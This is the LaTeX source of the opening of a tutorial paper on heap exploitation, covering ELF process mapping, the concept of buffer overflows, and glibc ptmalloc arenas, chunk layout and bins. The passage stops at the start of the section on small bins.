\documentclass{article}
\usepackage[utf8]{inputenc}
\usepackage{natbib}
\usepackage{hyperref}
\usepackage{minted}
\usepackage{tabularx}
\usepackage{tikz}
\usepackage{graphicx}
\usepackage{amsmath}
\usepackage{float}
\usepackage{titlesec}
\usepackage{listings}
\usepackage{color}
\usepackage{pdfpages}
\usepackage{changes}
\usepackage{cancel}
\usepackage{amsmath}
\usepackage[bottom]{footmisc}

\titleformat{\paragraph}
{\normalfont\normalsize\bfseries}{\theparagraph}{1em}{}
\titlespacing*{\paragraph}
{0pt}{3.25ex plus 1ex minus .2ex}{1.5ex plus .2ex}

\graphicspath{{images/}}
\numberwithin{equation}{subsection}
\title{{\huge Heap Exploitation}}
\author{Cristian C. Spagnuolo}

\definecolor{codegreen}{rgb}{0,0.6,0}
\definecolor{codegray}{rgb}{0.5,0.5,0.5}
\definecolor{codepurple}{rgb}{0.58,0,0.82}
\definecolor{backcolour}{rgb}{0.95,0.95,0.92}
\definecolor{whitecolour}{rgb}{1,1,1}
\definecolor{beige}{rgb}{0.96, 0.96, 0.86}

\lstdefinestyle{pythonstyle}{
    backgroundcolor=\color{backcolour},
    language=python,
    escapechar=~,
    commentstyle=\color{codegreen},
    keywordstyle=\color{magenta},
    numberstyle=\color{codegray},
    stringstyle=\color{codepurple},
    breakatwhitespace=false,         
    breaklines=true,                 
    captionpos=b,                    
    keepspaces=true,                 
    numbers=left,                    
    numbersep=5pt,                  
    showspaces=false,                
    showstringspaces=false,
    showtabs=false,                  
    tabsize=4, 
}

\lstdefinestyle{cstyle}{
    backgroundcolor=\color{whitecolour}, 
    language=c,
    escapechar=~,
    commentstyle=\color{codegreen},
    keywordstyle=\color{blue},
    numberstyle=\color{codegreen},
    stringstyle=\color{codepurple},
    basicstyle=\ttfamily,
    breakatwhitespace=false,         
    breaklines=true,                 
    captionpos=b,                    
    keepspaces=true,                 
    numbers=left,                    
    numbersep=5pt,                  
    showspaces=false,                
    showstringspaces=false,
    showtabs=false,                  
    tabsize=4,
}

\lstdefinestyle{consolestyle}{
    backgroundcolor=\color{beige},  
    language=bash,
    commentstyle=\color{codegreen},
    keywordstyle=\color{black},
    numberstyle=\color{codegreen},
    stringstyle=\color{codepurple},
    basicstyle=\ttfamily,
    breakatwhitespace=false,         
    breaklines=true,                 
    captionpos=b,                    
    keepspaces=true,                 
    showspaces=false,                
    showstringspaces=false,
    showtabs=false,
    tabsize=1,    
}

\begin{document}

\maketitle
\section{Introduction}
Programming languages, like C and C++ allow the developer to directly manage the memory allocation, however a huge number of security holes are based on the exploitation of bad usage of such that power. Linux based operating systems represents a program with the \texttt{ELF} format. In order to be run, an executable must be mapped in the RAM, therefore, a new process is spawned. To this end several operations are required:
\begin{enumerate}
    \item The OS creates a virtual address space.\footnote{Each process sees memory locations as contiguous, even if they may be physically scattered.}
    \item Then sections of the \texttt{ELF} are loaded into the newly created address space, Figure \ref{fig:elf_mapping}.
    \item Finally, the stack and the heap are initialized and it is performed a jump to the entry point of the program.
\end{enumerate}
\begin{figure}
    \centering
    
\includegraphics[width=\textwidth]{elf_mapping.pdf}
    \caption{Mapping of a 32-bit ELF executable within a Linux process.}
    \label{fig:elf_mapping}
\end{figure}
The most known binary exploitation technique is called \emph{buffer overflow}, and allow an attacker to violate CIA\footnote{Confidentiality, Integrity, Availability.} properties to perform whatever *he wants. This is possible since:
\begin{itemize}
    \item The CPU is not able to distinguish among data and code. If code is found, it is executed even if it was not expected.
    \item There is no built-in mechanism that checks the size of data which are written into a buffer.
\end{itemize}
A buffer overflow can be achieved by overrunning different types of data structures. For sure, the simplest variant is the stack overflow. The basic idea is to overwrite the saved \texttt{EIP}\footnote{The saved EIP contains the address of the instruction to be executed after a function returns the control to the caller.} with the address of a shellcode, a set of instructions carefully chosen by the attacker, to hijack the control flow and getting arbitrary code execution. Assuming that the reader has a good knowledge about how does a stack overflow attack works, it is possible to do a step forward, introducing the concept of \emph{heap exploitation}, which requires more advanced skills. The goal is tricking the implementation of heap management algorithms, but before going into further details it is mandatory to understand what is the heap.

\section{What is the Heap?}
The stack is used to manage local variables and function frames, however, if a variable is too large to fit on the stack, the program needs to write into a different portion of memory. For uninitialized and initialized global variables, the \texttt{.bss} and the \texttt{.data} sections are used, respectively. Whereas, to manage dynamic elements of arbitrary size, another portion of memory is used, the \emph{heap}. 
\subsection{Memory allocation}
The memory allocation is managed by the OS and thanks to syscalls, a program can interact with it. Some of the main syscalls which can be used for memory management are:
\begin{itemize}
    \item \texttt{mmap}: allocates a new memory page in the address space of the calling process.
    \item \texttt{munmap}: de-allocates a memory page from the address space of the calling process.
    \item \texttt{brk/sbrk}: allow to change the location of the program \texttt{break}, which defines the end of the process's data segment\footnote{It is the first location after the end of the uninitialized data segment.}. In other words, new memory is allocated for the process. The difference among these two syscalls is related to the input parameter. The former allow you to specify, exactly, the new address of the program \texttt{break}, whereas the latter allow to increase or decrease it with a relative offset.
\end{itemize}
There are several drawbacks in a direct usage of syscalls. First of all, they are slow, there is a minimum amount of memory which can be required and it is likely that the program requires new space several times. Moreover, the programmer must manage explicitly the memory, that is, an high knowledge of low level details is required. To overcome these limitations it is used an interface which implements an efficient memory management in between the program and the OS. The idea is to require at once a bigger amount of space, invoking a syscall, and then manage it efficiently, releasing new memory to the program, when actually
needed.
\subsection{Heap allocators}
Several algorithm have been thought to perform memory management:
\begin{itemize}
    \item \texttt{dlmalloc}: general purpose allocator.
    \item \texttt{ptmalloc}: used by glibc.
    \item \texttt{tcmalloc}: used by Chromium.
    \item \texttt{jemalloc}: used by FreeBSD, Firefox, Android.
    \item \texttt{libumem}: used by Solaris.
\end{itemize}
The difference among them is how sub-portion of memory, called \emph{chunks} are managed, however, the common denominator is that, each of them has been developed to improve performances, rather than keeping things secure. In this paper we will focus on the \emph{ptmalloc} algorithm, also known as the \textit{``glibc algorithm''}.
\subsection{Glibc algorithm}
The \emph{ptmalloc}, can be seen as an evolution of the \emph{dlmalloc}, that supports multi-threading. The main difference is that a separate \emph{heap}, called \emph{arena}, is kept for each thread. This approach, called \emph{per thread arena}, allow several threads to independently require new memory. Actually, rather than having a one-to-one mapping among threads and arena, the number of \emph{arenas} is bounded by the amount of cores of the CPU.
The glibc provides the following interface to deal with memory management:
\begin{itemize}
    \item \texttt{malloc}: allocates n bytes and returns a pointer to the payload of the allocated chunk. The memory is not initialized.
    \item \texttt{calloc}: can be seen as a more secure version of the malloc. It allocates an initialized\footnote{The memory is zeroed-out.} chunk and returns a pointer to its payload.
    \item \texttt{realloc}: changes the size of the memory block pointed by the given parameter by the specified amount of bytes. The content of the memory is not initialized.
    \item \texttt{free}: allow to free up the chunk of memory pointed by the given parameter.
\end{itemize}
\begin{figure}[H]
    \centering
    
\includegraphics[width=\textwidth]{single_heap_segment.pdf}
    \caption{Representation of the main arena and of a single heap segment of a thread arena.}
    \label{fig:single_heap_segment}
\end{figure}
\subsubsection{Heap management}
When the main thread arena runs out of space and calls the \texttt{malloc} to allocate new memory, the \texttt{sbrk} syscall is used. In other words, the main arena is simply increased by allocating contiguous regions of memory, Figure \ref{fig:single_heap_segment}. Whereas, if a different thread requires additional memory, the \texttt{mmap} syscall is invoked, resulting in the allocation of a new non contiguous page, Figure \ref{fig:multiple_heap_segments}. This means that the \emph{arena} of a non-main thread may be composed by groups \textbf{contiguous} portion of memory, divided into \emph{chunks}. From now on, we will use the term \emph{heap} to identify each of these components, whereas the term \emph{arena} to refer the whole set. To manage this memory partition three different data structures are used\footnote{https://sploitfun.wordpress.com/2015/02/10/understanding-glibc-malloc/}:
\begin{itemize}
    \item \texttt{heap\_info}: contains metadata to manage each single \emph{heap}. Since the main arena has only one \emph{heap}, this header is not used.
    \item \texttt{malloc\_state}: contains information about all chunks. Unlike thread arenas, main arena's header is not part of the heap segment, whereas it is a global variable and can be found in the \texttt{.data} segment of the \texttt{libc.so}.
    \item \texttt{malloc\_chunk}: is the header of each single chunk.
\end{itemize}
\begin{figure}[htb]
    \centering
    
\includegraphics[width=\textwidth]{multiple_heap_segments.pdf}
    \caption{Representation of a thread arena with multiple heap segments.}
    \label{fig:multiple_heap_segments}
\end{figure}
\subsubsection{Heap Structure}
We have understood that the \emph{heap} is divided into smaller portion of memory. According to its status, in-use or free, a \emph{chuck} looks different. Moreover, to simply manage the allocation, the overall free space of the heap is modeled as the size of a special type of \emph{chunk}, called \texttt{top\_chunk}.
\paragraph{Allocated chunk}
From the structure of an allocated \emph{chunk}, Figure \ref{fig:allocated_chunk}, we can identify different fields:
\begin{itemize}
    \item \texttt{prev\_size}: contains the size of the previous \emph{chunk} if it is free, otherwise, the last byte of the payload of the previous chunk.
    \item \texttt{size}: describe the size of the current \emph{chunk}. Since, the size is always a multiple of 8 bytes, last three bits can be used as flags\footnote{They are masked as 0 when the size need to be evaluated.}:\begin{itemize}
        \item \texttt{N - non main arena}: is asserted when the current chunk belong to a thread arena.
        \item \texttt{M - is mmapped}: is asserted when the chunk is part of a \texttt{mmaped} page.
        \item \texttt{P - previous in use}: is asserted when the previous chunk is in use. It allow to understand how to evaluate the content of the \texttt{prev\_size} field.
    \end{itemize}
    \item \texttt{chunk\_ptr}: defines the beginning of the header, that is what we have called \texttt{malloc\_chunk}.
    \item \texttt{malloc\_ptr}: is the pointer which is returned by the \texttt{malloc}.
\end{itemize}
It is important to point out that the actual size of the chunk, is not exactly the one required by the user when the \texttt{malloc} is called. Let us assume that the user requires a \emph{chunk} of \emph{n} bytes. The actual size will be \emph{n} plus, 8 bytes for the \texttt{size} field, plus, eventually, \emph{k} bytes due to alignment purposes. This is why, when observing a dump of the \emph{heap} with a debugger, we should expect a slightly different value in that field, with respect to the one that has been used as parameter of the \texttt{malloc}.
\paragraph{Free chunk}
A free chunk, has a structure which is pretty similar to the one of an allocated chunk, as shown in Figure \ref{fig:free_chunk}, however, it is noticeable the presence of two additional fields:
\begin{itemize}
    \item \texttt{fd}: pointer to the next chunk in the bin list.
    \item \texttt{bk}: pointer to the previous chunk in the bin list.
\end{itemize}
These two fields are used to implement either a linked or double linked list.
\begin{figure}[H]
  \centering
  \begin{minipage}[b]{0.46\textwidth}
    
\includegraphics[width=\textwidth]{allocated_chunk.pdf}
    \caption{Allocated chunk.}
    \label{fig:allocated_chunk}
  \end{minipage}
  \hfill
  \begin{minipage}[b]{0.5\textwidth}
    
\includegraphics[width=\textwidth]{free_chunk.pdf}
    \caption{Free chunk.}
    \label{fig:free_chunk}
  \end{minipage}
\end{figure}
\paragraph{Bins}
 It is assumed that each program manages allocated chunks, by its own, whereas, free chunks must be organized by the algorithm in such a way as to simplify future allocations.
To this end, additional data structures, called \emph{bins}, are implemented. Bins are used to hold free chunks, according to their size. Different bins are available:
\begin{itemize}
    \item \texttt{Unsorted bin}
    \item \texttt{Small bin}
    \item \texttt{Large bin}
    \item \texttt{Fast bin}
\end{itemize}
First three types are stored within an array of 126 elements, called \texttt{bins}, as a  \textbf{double linked list}, Figure \ref{fig:bins}, whereas, the last one is managed as a \textbf{single linked list}
\begin{figure}[htb]
    \centering
    
\includegraphics[width=\textwidth]{main_arena_bins.pdf}
    \caption{Unsorted, Small and Large bins representation.}
    \label{fig:bins}
\end{figure}

\paragraph{Unsorted bin}
When a non-fast bin is freed, instead of being added to its respective bin, it is placed in a sort of cache layer, called \emph{unsorted bin}, regardless its size. The idea is giving the algorithm a second chance to reuse the chunk, before storing it into the appropriate list to speed up memory management. There is only one unsorted bin, and it is stored in the first element of the \texttt{bins} array. Each time this list is iterated for searching a given element, scanned chunks that does not satisfy requirements, are sorted, that is, they are added to the associated bin.

\paragraph{Small bins}
